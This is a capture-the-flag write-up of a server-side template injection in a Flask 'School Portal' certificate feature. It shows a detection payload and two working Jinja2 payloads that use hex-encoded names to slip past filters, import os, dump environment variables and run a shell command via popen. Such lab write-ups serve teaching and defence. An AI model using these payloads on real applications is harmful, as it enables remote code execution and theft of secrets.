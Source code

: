 # School Portal - Server-Side Template Injection (SSTI) Writeup

## Challenge Overview
The School Portal challenge involves exploiting a Server-Side Template Injection (SSTI) vulnerability in a Flask web application to retrieve a flag stored as an environment variable.

## Initial Reconnaissance

### Application Analysis
- User registration and authentication
- Dashboard functionality
- Certificate generation system

![Home Page](home_page.png)
*Initial landing page of the School Portal*

![Registration](registeration.png)
*User registration form*

![Dashboard](dashboard.png)
*User dashboard interface*

## Vulnerability Discovery

### Certificate Generation Feature
The application includes a certificate generation feature that appears to accept the certificate name . This is often a prime target for template injection attacks.

![Certificate Generation Form](certificate_generation.png)
*Certificate generation*

### SSTI Detection and Testing
During testing of the certificate generation functionality, I started with a basic SSTI detection payload to see if the application processes user input through a template engine.

**Initial Test Payload:** `{{7*7}}`

![Further SSTI Testing](trying_ssti.png)
*Initial Test Payload*

![Generated Certificate with SSTI Test](generated_certificate.png)
*Result of the payload - Notice the output shows "49" indicating successful template injection*

The successful execution of the mathematical expression `{{7*7}}` returning `49` confirms that the application is vulnerable to Server-Side Template Injection, likely using Jinja2 template engine based on Flask framework indicators.

## Exploitation Process

### Step 1: Environment Variable Enumeration
Since we know that the flag is stored as an environment variable, I crafted a payload to access the application's environment:

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('environ')}}
```

**Payload Breakdown:**
- `request|attr('application')` - Access the Flask application object
- `attr('\x5f\x5fglobals\x5f\x5f')` - Access global variables (encoded `__globals__`)
- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')` - Get builtins module
- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')` - Import os module
- `attr('environ')` - Access environment variables

**Note:** Hex encoding (`\x5f`) is used to bypass potential filters that might block `__` sequences.

![Environment Variables](get_env_vraiables.png)
*Environment variable enumeration results showing available environment variables*

### Step 2: Flag Extraction Optimization
The initial payload revealed environment variables but the flag output was truncated. To properly extract the complete flag, I refined my approach:

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('echo $FLAG_00_This_real | fold -w 50')|attr('read')()}}
```

**Payload Improvements:**
- `attr('popen')('echo $FLAG_00_This_real | fold -w 50')` - Execute shell command to echo the flag
- `fold -w 50` - Format output with line breaks every 50 characters for better readability
- `attr('read')()` - Read the command output

![Flag Extraction](flag.png)
*Successfully extracted flag using the optimized SSTI payload*

## Flag
The flag was successfully extracted using the optimized SSTI payload.


## Difficulty: Easy
This challenge demonstrates the importance of secure template handling and the risks associated with Server-Side Template Injection vulnerabilities.
